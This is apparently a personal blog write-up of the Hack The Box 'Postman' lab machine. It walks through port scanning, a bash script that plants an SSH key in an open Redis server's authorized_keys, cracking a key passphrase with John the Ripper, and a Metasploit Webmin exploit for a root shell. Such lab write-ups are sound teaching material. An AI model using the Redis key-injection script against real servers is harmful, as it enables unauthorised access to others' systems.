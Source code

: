 ```yaml
---
layout: post
title: Postman walkthrough HTB 
---
```


![](/images/2020-03-28-postman/1.png)

Postman is a Hack the box machine which is a fairly easy challenge but I wasted some time at looking at the wrong port to get an initial foot hold.

For this machine I used Kali ec2 instance because I just like working on cloud enviornment but I had some issue with getting a reverse shell so I had to use a Kali VM.

Anyways lets start,

First things first:

I added the IP of the machine to my host file so I don't have to enter the IP address everytime while enumeration:

```
echo "10.10.10.160 postman.htb" >> /etc/hosts
```

As usual I fired up Nmap

```
nmap -sV -A - postman.htb
```

I didn't add the whole nmap result:
```
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
|_  Supported Methods: GET HEAD POST OPTIONS
```

So initially I found 22, 80 and 10000 as open. 

Firstly, I open up the web:
![](/images/2020-03-28-postman/9.png)

I looked at the page source and all other possible avenues but unfortuantely nothing stuck out.

so I decided to brute force the directory:
```
gobuster dir -w path/to/the/wordlist -u postman
```
since I didnt find anything intresting, I google'd exploit for Webmin and I found a few vulns but the one that could be exploited needed a user access (username & password).

After 2 hours I was no where so I decided to check open ports again and this time I scanned the host with msscan

```
masscan -e tun0 -p1-65535,U:1-65535 postman --rate=1000

Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160
```
WOW this time I found a new port, I was so furious at myself for being lazy at initial nmap scan. For those of who are wondering what could have I done at the first place to avoid this ?

use this command instead and scan all 65535 ports:
```
nmap -sC -sV -p- -oA IP
```
Now that I found 6379/tcp, I looked into it and found that redis server was running;

I wasn't familiar with how redis server works so I googled and learned about redis server, the intresting part was Redis lets anyone write files on the system and Redis has ssh key in its directory and has write access over it. This means we can overwrite our ssh key and get our hold on the system:

so I used this script to automate the process:
  
  ```
  #!/bin/bash

rm ~/.ssh/id*
ssh-keygen -t rsa

(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "n\n") > foo.txt

redis-cli -h 10.10.10.160 flushall 
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit 
redis-cli -h 10.10.10.160 config set dir /var/lib/redis/.ssh/
redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"
redis-cli -h 10.10.10.160 save

ssh -i ~/.ssh/id_rsa redis@10.10.10.160
  ```

![](/images/2020-03-28-postman/2.png)

Okay Now we have acess to the system, so first thing I tried was to get the user so I navigated to the user and tried to read the user.txt but failed:


![](/images/2020-03-28-postman/3.png)

so Now we have to find a way to escalate privilage:

Lets see if we can find something intresting in some other directories.

![](/images/2020-03-28-postman/4.png)

There we go, we got this file. I need to crack this file to find a password so I copied the file over to my ec2 instance and used ssh2john to convert this to use it with johntheripper tool.

![](/images/2020-03-28-postman/5.png)

Now fire up john*

![](/images/2020-03-28-postman/6.png)

Now that we have a password, lets try and get the user. I used the script to get to the host as redis then I used the su command to switch the user to matt and tried and password.



![](/images/2020-03-28-postman/7.png)

YAY we got the user....

Now all you got to do is navigate and read the user.txt file with cat/nano/vi/vim..

Hmm.. so how to we get root now ??? remember we found an exploit for webmin that required a usr and password. Well we have the creds to use that exploit now, so I fired up Metesploit:

![](/images/2020-03-28-postman/8.png)
![](/images/2020-03-28-postman/10.png)

Set payload, configure host and port &

```
exploit
```

Unfortunately for me I had some binding issue for a revrese connection (just because I was stupid and didn't open up port 4000 on AWS security groups) so I had to use my Kali VM to get the reverse shell from metasploit.


![](/images/2020-03-28-postman/11.png)

Now that we have root, all we have to do is read the root hash and submit to hack the back and own that machine.

![](/images/2020-03-28-postman/12.png)
![](/images/2020-03-28-postman/13.png)






